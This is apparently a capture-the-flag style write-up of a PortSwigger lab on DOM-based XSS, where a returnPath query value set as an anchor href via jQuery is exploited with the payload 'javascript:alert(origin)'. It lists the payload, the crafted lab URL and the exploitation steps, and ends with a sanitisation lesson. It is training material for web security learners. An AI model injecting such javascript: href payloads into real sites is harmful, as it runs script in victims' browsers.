


🧪 PortSwigger XSS Lab 05 – DOM XSS in jQuery anchor href attribute sink using location.search

🔍 Lab Description
This lab uses location.search to set the href attribute of an anchor element using jQuery. If the value starts with javascript:, it becomes exploitable when clicked.

🔗 Lab URL
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink

💣 Payload
javascript:alert(origin)

https://0a4d007604c9210c817fd95000a800d2.web-security-academy.net/feedback?returnPath=javascript:alert(origin)

🛠️ Exploit Strategy
1. Confirmed location.search is used as anchor href via jQuery attr().
2. Injected javascript: scheme with alert payload.
3. Clicked the Back link to trigger the payload.

✅ Outcome
An alert popped showing the page origin via alert(origin) after clicking the link — lab solved.

🧠 Lesson Learned
Never assign user-controlled input directly to sensitive attributes like href, src, or action. Always validate and sanitize.

